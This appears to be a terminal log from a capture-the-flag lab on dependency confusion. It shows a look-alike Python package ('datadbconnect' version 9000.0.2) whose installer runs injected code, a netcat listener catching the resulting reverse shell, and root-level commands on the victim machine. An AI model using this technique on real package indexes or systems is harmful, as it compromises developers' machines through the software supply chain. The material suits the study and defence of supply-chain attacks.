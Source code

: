 ```
  running build
  /usr/local/lib/python3.9/dist-packages/setuptools/command/install.py:34: SetuptoolsDeprecationWarning: setup.py install is deprecated. Use build and pip and other standards-based tools.
    warnings.warn(
  installing to build/bdist.linux-x86_64/wheel
  running install
  running install_egg_info
  running egg_info
  writing datadbconnect.egg-info/PKG-INFO
  writing dependency_links to datadbconnect.egg-info/dependency_links.txt
  writing top-level names to datadbconnect.egg-info/top_level.txt
  reading manifest file 'datadbconnect.egg-info/SOURCES.txt'
  writing manifest file 'datadbconnect.egg-info/SOURCES.txt'
  Copying datadbconnect.egg-info to build/bdist.linux-x86_64/wheel/datadbconnect-9000.0.2-py3.9.egg-info
  running install_scripts
  Hello World from installer, this proves our injection works
  
┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ rlwrap nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.19.103] from (UNKNOWN) [10.10.183.87] 40756
# ls
build
datadbconnect.egg-info
PKG-INFO
setup.cfg
setup.py
# cd /root
# ls
Desktop
Downloads
Instructions
Pictures
Postman
Rooms
Scripts
thinclient_drives
Tools
# cd Rooms
# ls
ADEnumeration
AoC3
BPVolatility
BreachingAD
cryptographyintro
ctf-event-2022
CVE2022-26134
CVE2022-26923
ExploitingAD
Follina-MSDT
introdigitalforensics
OhSINT
sigma
solar
SplunkBasic
Spring4Shell
Wireshark101

Works !
```


[[CCT2019]]